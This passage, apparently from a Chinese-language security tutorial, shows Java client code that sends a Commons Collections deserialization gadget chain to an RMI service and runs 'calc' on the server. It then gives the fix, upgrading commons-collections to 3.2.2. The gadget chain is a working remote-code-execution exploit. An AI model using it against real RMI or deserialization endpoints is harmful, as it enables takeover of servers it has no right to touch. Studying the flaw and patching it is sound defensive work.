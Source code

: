 3）客户端调用，并注入执行程序

```
public static void main(String[] args) {
    try {
        //这里的IHello接口与服务器端提供的要一致，包括包名路径
        org.ipph.example.IHello rhello =(org.ipph.example.IHello) Naming.lookup("rmi://localhost:8888/RHello");
            
        //获取注入程序的对象
        Object obj=CustomTest.getObject();
            
         rhello.test(obj);
    } catch (Exception e) {
        // TODO Auto-generated catch block
        e.printStackTrace();
    } 
}

public static Object getObject()throws Exception{
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    Transformer chain = new ChainedTransformer(transformers) ;
        
    final Map innerMap = new HashMap();
    final Map lazyMap = LazyMap.decorate(innerMap, chain);//包装
        
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
         
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
        
    return handler;
}
```

注：getObject中注入了执行程序。在运行客户端程序时会弹出计算器程序，证明设置的注入程序在服务器端反序列化时被执行了。

4）解决方案

升级jar包，将commons-collections-3.1.jar升级为commons-collections-3.2.2.jar

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.2</version>
</dependency>
```
